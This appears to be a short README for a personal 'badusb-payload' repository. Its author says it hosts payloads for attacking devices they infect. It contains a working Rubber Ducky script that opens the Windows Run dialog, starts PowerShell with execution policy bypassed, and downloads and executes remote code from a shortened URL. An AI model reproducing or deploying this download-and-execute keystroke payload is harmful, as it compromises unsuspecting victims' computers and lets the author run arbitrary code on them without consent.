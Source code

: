 # badusb-payload
Move along, i use this simply to host my payload for my badusb attacks. ^^
That means it's most likely very messy code that which has the goal to do my bidding on devices i infect.

To run my code i use this DUCKY script:
```
DELAY 500
GUI r
DELAY 100
STRING powershell -Exec Bypass iex ((New-Object System.Net.WebClient).DownloadString('https://3.ly/ao519'))
ENTER
```
